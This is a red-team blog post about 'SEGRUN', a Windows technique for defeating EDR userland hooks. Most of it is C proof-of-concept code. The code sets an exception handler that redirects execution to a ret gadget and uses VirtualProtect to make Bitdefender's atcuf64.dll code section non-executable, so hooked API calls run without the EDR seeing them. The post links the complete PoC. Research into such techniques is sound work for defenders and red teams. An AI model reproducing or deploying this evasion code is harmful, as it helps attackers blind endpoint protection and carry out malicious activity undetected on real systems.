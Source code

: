```yaml
---
layout: post
title: "SEGRUN: Userland unhooking abusing exception handlers"
categories: research
tags: redteam
date: 2024-11-26 19:49:00 +0100
author: ikerl
---
```


Inspired by the DEFCON 31 talk in Las Vegas, delivered by Carlos Polop and Yago, I decided to explore a concept from their presentation to develop a new technique. This method, largely unfamiliar to me before, enables patching function hooks at the userland level used by AV/EDR systems, helping to evade detection by endpoint protection solutions.

## The Inspiration

The original DEFCON talk, [Exploring Linux Memory Manipulation for Stealth and Evasion](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf), introduced an innovative technique for code execution in distroless environments, where everything typically runs in read-only mode and code execution is restricted. The talk showcased the [memdlopen](https://github.com/arget13/memdlopen) tool, which uses Linux signal handlers to intercept functions called by `dlopen`, enabling libraries to be loaded directly from memory instead of disk.

## The Idea

As a red team operator, I came up with the idea of using a similar `memdlopen` approach to unhook EDR trampolines in userland. While I cannot confirm if this technique is entirely new, I had not encountered it before.

EDRs commonly load a monitoring DLL into the processes they analyze. These DLLs modify system DLLs in memory, inserting trampolines that intercept calls to specific Windows API functions before execution. The trampolines redirect the execution flow of these monitored API functions to the EDR DLL, granting security systems deep visibility and control over program execution. By patching these trampolines, an attacker can bypass the EDR’s monitoring mechanisms, significantly complicating the detection and analysis of the targeted process.

Inspired by the `memdlopen` concept of using handlers to intercept exceptions, I developed a novel technique to evade userland hooks in Windows environments. This approach involves defining an exception handler and corrupting the EDR DLL to trigger controllable exceptions whenever the program accesses the monitoring code in that DLL.

## PoC

In this section, we list the steps required to apply this technique in detail.

### Defining the Exception Handler

The core of this method involves setting up an exception handler to manage all exceptions triggered during execution. When an exception occurs, the handler performs the following actions:

1. ROP to the `ret` function: The handler redirects the flow to a function that executes a simple `ret` instruction. This causes the program to return to the address where the exception was triggered, but with the instruction pointer (rip) incremented by one.

2. Resuming Execution: By performing this ROP, the program bypasses the exception and continues execution as if the interruption had not occurred, allowing the program to pass through the non-executable memory region (the EDR DLL) without actually executing any of its code.

This technique ensures that the EDR's monitoring hooks are bypassed while the normal operation of the target process continues without disruption.

Here is the implementation of the exception handler designed to manage exceptions that occur when the program attempts to execute memory mappings from the EDR DLL:

```c
LONG WINAPI TopLevelExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
    DWORD_PTR ret_address = searchRetGadget(ret);
    if (ret_address == NULL)
    {
        exit(1);
    }

    DWORD exceptionCode = pExceptionInfo->ExceptionRecord->ExceptionCode;

    switch (exceptionCode) {
    case EXCEPTION_ACCESS_VIOLATION:
        printf("Access Violation Exception\n");
        break;
    case EXCEPTION_BREAKPOINT:
        printf("Breakpoint Exception\n");
        break;
    case EXCEPTION_INVALID_HANDLE:
        printf( "Invalid Handle Exception\n");
        break;
    default:
        printf("Unknown Exception\n");
        break;
    }

    CONTEXT* context = pExceptionInfo->ContextRecord;
    printf("Exception at: 0x%p\n", (void*)context->Rip);
    context->Rip = ret_address;
    SetThreadContext(GetCurrentThread(),context);
    return EXCEPTION_CONTINUE_EXECUTION;
}
```

### "ret" function definition

When an exception is handled, the exception handler performs a ROP to the `ret` function. This function executes the ret instruction in assembly, causing the program to return to the address where the exception occurred.

By doing this, the program traverses the memory section of the EDR DLL without ever executing any of its instructions. This ensures that the EDR’s monitoring code is effectively bypassed without interrupting the program's flow.

Below are the functions: one that performs the `ret` operation and another that searches memory for this function to execute the ROP after each exception is handled:

```c
void ret()
{
    return;
}

DWORD_PTR searchRetGadget(void (*func)()) {
    unsigned char* ptr = (unsigned char*)func;
    size_t len = 128;

    for (size_t i = 0; i < len; ++i)
    {
        if (ptr[i] == 0xc3) return (DWORD_PTR)&ptr[i];
    }

    return NULL;
}
```

### Corrupting the EDR DLL

With the exception handler implemented, the next step is to corrupt the EDR DLL. This ensures that whenever the program encounters a trampoline and execution is redirected to the EDR’s function analyzer, a segmentation fault (segfault) is triggered.

There are several ways to achieve this:

- Modify memory permissions: Change the permissions of the memory where the EDR DLL is loaded.
- Overwrite memory contents: Configure the DLL’s memory as writable and use any function capable of overwriting that region with null bytes.

In my case, I used `VirtualProtect` to mark the EDR DLL’s memory region as non-executable. The tests were conducted using the `atcuf64.dll` DLL from Bitdefender:

```c
    SetUnhandledExceptionFilter(TopLevelExceptionHandler);

    HMODULE hmodule = GetModuleHandleA("atcuf64.dll"); 
    printf("Module => %p\n", hmodule);
    DWORD textSize = NULL;
    HMODULE textAddress = NULL;
    if (hmodule != NULL)
    {
        
        IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hmodule;
        IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)hmodule + dosHeader->e_lfanew);

        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; ++i) {
            //printf("%s\n", sectionHeader[i].Name);
            if (strcmp((char*)sectionHeader[i].Name, ".text") == 0) {
                textAddress = hmodule +sectionHeader[i].VirtualAddress;
                textSize = sectionHeader[i].SizeOfRawData;
                printf(".text => 0x%p, size => %d\n", textAddress,textSize);
                break;
            }
        }
        
    }
    else {
        printf("modulehandle error\n");
        return -1;
    }

    if (!textAddress) {
        printf("Error calculating .text section\n");
        return -1;
    }
    
    DWORD old;
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), (char*)"VirtualProtect");
    BOOL rv = pVirtualProtect(textAddress, (unsigned int)textSize - 1024 * 246, PAGE_READONLY, &old);
```

### How the Technique Works

At this stage, we have all the components needed to apply the technique and execute functions hooked by the EDR without the EDR detecting it.

Here’s how the program operates once the exception handler is set up, the EDR DLL’s memory is corrupted, and the necessary functions to perform the ROP to the `ret` gadget are implemented:

![](segrun1.png)

- When a hooked function is called, the trampoline executes, redirecting the execution flow to the EDR DLL:

![](segrun2.png)

- An exception is raised as this memory region is marked as non-executable:

![](segrun3.png)

- The exception handler manages the exception and performs the necessary ROP to the ret gadget. This process is repeated as many times as needed until the program successfully completes the call to the hooked function.

![](segrun4.png)

By leveraging this workflow, the technique ensures that the hooked function executes successfully without alerting the EDR or triggering its monitoring mechanisms. The complete PoC project can be found at the following link: https://github.com/ikerl/segrun
